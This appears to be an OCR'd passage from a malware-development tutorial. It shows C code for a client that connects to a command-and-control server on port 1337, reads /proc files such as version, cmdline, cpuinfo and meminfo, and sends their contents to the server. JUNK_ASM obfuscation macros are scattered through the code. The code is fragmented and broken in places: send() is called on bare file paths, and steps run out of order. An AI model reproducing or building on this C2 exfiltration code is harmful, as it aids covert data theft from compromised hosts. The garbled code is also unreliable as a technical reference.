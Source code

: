 autonomous thread listening for 
incoming connections by malware 
instances. Once connected, the module 
will simply print on the standard 
output the content of the incoming 
connection (which are is the 
information extracted by the client).

Connect to the C2 server

Read the content of the /proc files

Send the content to our c2 server

Connect to Command&Control

```c

JUNK_ASM;

int c2_fd;

struct hostent * c2_res;
struct sockaddr_in addr;

c2_fd = socket(AF_INET, SOCK_STREAM,
0);
c2_res = gethostbyname("localhost");

addr.sin_family = AF_INET;
memcpy(&addr.sin_addr.s_addr, c2_res-
>h_addr, c2_res->h_length);
// 0x539 is "1337" in host byte order.
addr.sin_port = htons(0x539);
// Send the content of the files to
the C2 server
sys_info(c2_fd);
// Close and die 
close(c2_fd);
/* Read the content
The /proc files I find most valuable,
especially for inherited system
discovery, are: */

JUNK_ASM;
  
        send(sockfd, "/proc/version");
        send(sockfd, "/proc/cmdline");
        send(sockfd, "/proc/cpuinfo");
        send(sockfd, "/proc/meminfo");
/proc/cmdline

```
This file shows the parameters passed 
to the kernel at the time it is 
started.
